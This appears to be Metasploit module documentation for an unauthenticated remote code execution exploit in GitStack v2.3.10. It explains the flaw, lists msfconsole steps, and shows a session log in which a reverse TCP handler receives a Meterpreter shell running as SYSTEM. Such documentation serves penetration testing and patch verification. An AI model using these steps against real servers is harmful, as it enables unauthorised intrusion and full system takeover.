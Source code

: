 ## Description

An unauthenticated remote code execution vulnerability exists in GitStack through v2.3.10. This
module exploits the vulnerability by sending unauthenticated REST API requests to put the
application in a vulnerable state, if needed, before sending a request to trigger the exploit.
These configuration changes are undone before the module exits. The module has been tested on
GitStack v2.3.10.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository web interface must be enabled, a repository must
exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts.
Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

* Install a vulnerable GitStack application
* `./msfconsole`
* `use exploit/windows/http/gitstack_rce`
* `set rhost <rhost>`
* `set verbose true`
8 `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to
be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf5 > use exploit/windows/http/gitstack_rce
msf5 exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf5 exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
